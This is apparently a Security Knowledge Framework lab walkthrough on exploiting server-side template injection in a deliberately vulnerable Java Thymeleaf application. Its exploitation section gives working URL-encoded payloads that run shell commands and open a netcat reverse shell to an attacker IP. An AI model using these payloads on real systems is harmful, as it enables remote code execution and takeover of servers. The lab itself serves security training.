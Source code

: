 # Server Side Template Injection - SSTI

## Running the app on Docker

```
$ sudo docker pull <MISSING JAVA SSTI DOCKER>
```

```
$ sudo docker run -ti -p 127.0.19.1:5000:5000 <MISSING JAVA SSTI DOCKER>
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

#### Step 1

As with all reconnaissance we first have to determine the type of application that is running and the programming language it was written in. This could easily be achieved by setting up an intercepting proxy and study the requests and responses made by the application to the web server.

Also, trying to trigger error messages on the application can also give away a lot of information about the application under test.

On the landing page of the application, we have a page containing 2 links to different pages. Both redirects to an error page.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/java/SSTI/1.png)

On the error pages, we continue searching for initial clues to find an attack vector. We realize that changing value in the URL is reflected on the response of the error page.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/java/SSTI/2.png)

Let's play with URL a bit more to find out more information. In the screenshot below in the response of the error, we find that a Java backend is running, accompanied with the server "Tomcat". 

```
http://0.0.0.0:5000/error/test|
```

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/java/SSTI/3.png)

Now, what we have is a reflected user input on the error page with 'HTTP 500' and it is a Java application running on Tomcat.


#### Step2

Now that we have determined the type of application that is running let's try to see if any user supplied input is accepted by the application. The input from the URL is being processed directly in the application and outputted in the HTML. So now we have control of whatever is being reflected on the page. How do we now determine if the application might be susceptible to Server Side Template Injection?

First we need to do some investigation on how the syntax works, so we dive into the docs!

{% hint style="info" %}
[https://www.thymeleaf.org/doc/tutorials/3.0/usingthymeleaf.html](https://www.thymeleaf.org/doc/tutorials/3.0/usingthymeleaf.html)
{% endhint %}

Java Spring Thymeleaf expressions can have the following types:

```
${...}: Variable expressions – in practice, these are OGNL or Spring EL expressions.
*{...}: Selection expressions – similar to variable expressions but used for specific purposes.
#{...}: Message (i18n) expressions – used for internationalization.
@{...}: Link (URL) expressions – used to set correct URLs/paths in the application.
~{...}: Fragment expressions – they let you reuse parts of templates.
```

Now, we want to use expressions to print to the template output to see if our payloads are interpreted and executed on the server-side by the templating engine. The most ideal way to do so is to inject mathematical statements.

As found in the docs:

```
@{( 4 + 4 )} is 8.
```

Let's see what happens when we inject the expression with the operator described above!

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/java/SSTI/4.png)

## Exploitation

A nice write-ups about different type of payloads on Spring Thymeleaf engine is found here:

[https://github.com/veracode-research/spring-view-manipulation](https://github.com/veracode-research/spring-view-manipulation)

Thymeleaf template engine has a feature called expression preprocessing. Expressions placed between double underscores (&#95;&#95;...&#95;&#95;) are preprocessed and the result of the preprocessing is used as part of the expression during regular processing. Here is an example from Thymeleaf documentation:

```
#{populated.__${populate.code}__}
```

Thymeleaf first preprocesses ${populate.code}. Then, it uses the result (in this example it is a stored value ALL) as part of a real expression evaluated later (#{populated.ALL}).

Now, lets try some useful injections.

Running 'id' command on target server:

```
::__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22id%22).getInputStream()).next()%7d__::

```

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/java/SSTI/5.png)

Even tough the result is not seen in the frontend, we can see that 'id' command has been executed on the server logs.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/java/SSTI/6.png)

Running 'touch pwn' command on target server to create a file named 'pwn' on current running directory.
```
::__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22touch%20pwn%22).getInputStream()).next()%7d__::
```

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/java/SSTI/7.png)

Running netcat command on target server to get a revershell to our attacking machine by using the payload below.
```
::__$%7Bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22nc%20-c%20bash%20192.168.13.131%201337%22).getInputStream()).next()%7D__::
```

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/java/SSTI/8.png)

Yes! We got the reverse shell and the control over the target machine.

## Additional sources

[https://github.com/veracode-research/spring-view-manipulation](https://github.com/veracode-research/spring-view-manipulation)

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

[https://www.thymeleaf.org/doc/tutorials/3.0/usingthymeleaf.html#what-is-thymeleaf](https://www.thymeleaf.org/doc/tutorials/3.0/usingthymeleaf.html#what-is-thymeleaf)
